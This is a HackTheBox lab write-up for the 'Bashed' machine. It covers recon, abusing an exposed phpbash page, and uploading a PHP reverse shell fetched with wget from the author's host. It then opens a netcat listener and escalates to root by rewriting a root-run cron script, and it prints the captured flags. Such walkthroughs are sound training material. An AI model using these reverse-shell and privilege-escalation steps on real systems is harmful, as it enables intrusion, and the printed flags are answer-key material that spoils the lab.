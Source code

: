 # Bashed

Author: Ewaël

**Bashed** is an easy HackTheBox box by Arrexel.

`nmap -sC -sV -oN nmap 10.10.10.68 -v -A` shows that only port 80 is open. And [http://10.10.10.68](http://10.10.10.68) presents a *phpbash* test feature.

![main](main.png)

Considering this is a test site, I should be able to test this on the site. `dirb http://10.10.10.68` finds `/php` and `/dev`. I find what I'm searching for in `/dev`:

![phpbash](phpbash.png)

I start by looking at `/home`, and I find the user flag in `arrexel` repo:

`2c281f318555dbc1b856957c7147bfc1`

To get the root flag, my first idea is to create a `shell.php` in `/uploads` site directory that dirb found. But the problem is that the "<?" sequence is filtered in the *phpbash* input. Indeed,

```bash
echo "?php echo allo; ?" > test
```

works correctly but

```bash
echo "<?php echo allo; ?>" > test
```

becomes `echo "" > test`. My second idea is to escalade privs to become root directly on the site. `sudo -l` shows that I can easily become `scriptmanager` without password, but `sudo -u scriptmanager bash` does not return anything.

I understand I should stop working on the site and spawn a shell on my host for my privilege escalation. To do so, I upload a reverse shell on the site. First I copy one to my working directory.

```bash
cp /usr/share/laudanum/php/php-reverse-shell.php .
```
After changing the IP:port, I start a server to make it accessible.

```bash
python -m SimpleHTTPServer 80
```

From the *phpscript* page, I download it.

```bash
wget 10.10.14.34/php-reverse-shell.php
```

Here `10.10.14.34` is my IP. And to conclude I start netcat to listen on the port I configured in the reverse shell code.

```bash
nc -lvnp 4444
```

Then I just need to go to `/uploads/php-reverse-shell.php` to get my shell. From there I spawn a shell as `scriptmanager` with `sudo -u scriptmanager bash` and `python -c 'import pty; pty.spawn("/bin/sh")'`, because it's easier to use. In `/` I find a `scripts` directory that belongs to me, where I find `test.py` which writes "123" in the `test.txt` file. Strange detail is that `test.txt` belongs to root and was updated a minute ago. After waiting one more minute I understand the script is executed by root every minute, so I just modify it in order to get the flag next time it is executed:

```bash
echo 'f = open("/root/root.txt", "r").read(); g = open("test.txt", "w"); g.write(f)' > test.py
```

Now I can just get my root flag in `test.txt`:

`cc4f0afe3a1026d402ba10329674a8e2`
